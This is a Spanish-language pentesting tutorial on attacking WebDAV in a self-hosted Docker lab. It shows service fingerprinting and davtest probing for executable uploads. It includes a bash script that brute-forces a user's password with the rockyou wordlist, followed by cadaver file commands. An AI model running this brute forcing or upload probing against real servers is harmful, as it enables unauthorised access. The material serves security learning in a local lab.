





# Explotación de WebDAV


## ¿Qué es WebDAV?

**WebDAV** es un protocolo que nos permite guardar archivos, editarlos, moverlos y compartirlos en un servidor web.

## Instalación

```bash
docker pull bytemark/webdav
docker run --restart always -v /srv/dav:/var/lib/dav -e AUTH_TYPE=Digest -e USERNAME=bryan -e PASSWORD=dancer --publish 80:80 -d bytemark/webdav
```

Una vez instalado, se verifica la dirección web en el “localhost”.

De primeras, se están pidiendo credenciales las cuales no se conocen,



Se podría saber que esto corresponde a un WebDAV al utilizar la herramienta whatweb;

```bash
whatweb WebDAV http://127.0.0.1
```



## DavTest

Esta herramienta sirve para hacer un “pentest” al WebDAV, para que funcione se necesita que se le otorguen credenciales válidas, lo que hace es subir múltiples archivos con diferentes extensiones para conocer cuáles son admitidas e incluso saber cuáles son ejecutables y si son interpretados por la aplicación, estos ejecutables podrían servir para llegar a ejecutar comandos.

```bash
davtest -url http://127.0.0.1 -auth username:password
```

Ahora se muestra un ejemplo del output al ingresar credenciales válidas e inválidas:

Credenciales inválidas:



Credenciales válidas:



## DavTest - Fuzzing de contraseña (DavBForce)

Se podría crear un pequeño script para aplicar fuerza bruta y descubrir la contraseña válida para un usuario determinado:

```bash
#!/bin/bash

cat /usr/share/wordlists/rockyou.txt | while read password; do
	result=$(davtest -url http://127.0.0.1 -auth bryan:$password 2>/dev/null | awk 'NR==3 {print $2}')

	if [ $result ]; then
		echo -e "[+] Password is: $password"
		break
	fi
done
```



## Cadaver

Esta herramienta servirá para interactuar con el servicio WebDAV, es decir, permitirá al usuario cargar, modificar, descargar archivos, etc. Para utilizarla es necesario indicar credenciales válidas.

```bash
apt install cadaver
cadaver http://127.0.0.1
```

Algunos comandos para administrar archivos en cadaver:

```bash
mkdir # Crear directorios
ls # Listar los archivos del servidor WebDAV
lls # Listar los archivos del directorio local
put <file> # Subir archivos locales al servidor WebDAV
get <file> # Descargar archivos del servidor WebDav a la 
# máquina local
rm # Eliminar archivos
```
